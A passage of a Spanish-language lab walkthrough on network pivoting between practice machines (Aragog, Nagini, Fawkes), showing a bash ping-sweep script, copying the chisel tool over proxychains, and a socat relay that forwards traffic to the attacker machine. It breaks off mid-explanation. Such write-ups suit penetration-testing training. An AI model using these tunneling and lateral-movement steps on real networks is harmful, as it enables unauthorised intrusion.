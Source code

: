 Resultado:

```bash
192.168.100.128 10.10.0.129
```

Explicación: como hay dos segmentos de red, vamos a repetir el proceso que hicimos con Aragog

Acción:

```bash
nano hostDiscovery.sh
chmod +x hostDiscovery.sh
./hostDiscovery.sh
```

Resultado:

```bash
[+] Host 192.168.100.1 - ACTIVO
[+] Host 192.168.100.128 - ACTIVO
[+] Host 192.168.100.129 - ACTIVO
[+] Host 192.168.100.132 - ACTIVO
```

**Nota:** modificamos el script para que el host apunte a la dirección indicada

```bash
#!/bin/bash

for i in $(seq 1 254); do
  timeout 1 bash -c "ping -c 1 192.168.100.$i" &>/dev/null && echo "[+] Host 192.168.100.$i - ACTIVO" &
done; wait
```

Explicación: hemos encontrado un host activo con el que la máquina Nagini tiene comunicación `192.168.100.129` hay otra en la `.132` pero vamos a empezar a pivotar por la máquina Fawkes (realmente Fawkes no tiene más conectividad con otras máquinas, el camino correcto sería vulnerar la Matrix 1 y de ahí seguir pivotando, pero a modo de Prueba de Concepto (PoC) vamos a mostrar su tunelización y explotación)

### Tunneling

Acción: desde la máquina atacante nos transferimos a Nagini el chisel

```bash
proxychains scp chisel root@10.10.0.129:/root/chisel
chmod +x chisel   # desde Nagini
```

Acción: en Aragog, abrimos un túnel Socat con el que pasaremos a la máquina atacante todo el tráfico que llegue a Aragog (en este caso tráfico que llegará dese Nagini)

```bash
./socat TCP-LISTEN:2322,fork TCP:192.168.1.66:1234
```

Acción: desde Nagini abrimos un túnel hacia Aragog, donde usando Socat conectaremos con la máquina atacante, así podemos comunicar desde máquina atacante a Aragog desde aquí a Nagini y así llegar a Fawkes

